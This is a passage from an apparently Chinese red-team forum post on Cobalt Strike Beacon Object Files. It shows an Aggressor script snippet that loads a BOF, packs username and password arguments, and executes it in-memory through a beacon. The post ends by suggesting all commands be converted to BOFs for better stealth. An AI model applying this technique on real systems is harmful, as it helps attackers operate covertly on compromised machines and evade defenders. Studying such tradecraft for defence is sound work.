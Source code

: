 ```php

    $handle = openf(script_resource("source.obj"));
    $data = readb($handle, -1);
    closef($handle);

  # 打包参数两个ZZ代表两个参数
  $args = bof_pack($1, "ZZ", $uname, $pass);

    # 执行bof
     # "go"是BOF中的函数名，$args是传递给这个函数的参数
  beacon_inline_execute($1, $data, "go", $args);
}
```

效果如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-9c2857d5edb3cc3c11300b5468128b6bab02e4d0.png)

总结
==

可以根据此思路实现所有命令bof化，能够更好的隐藏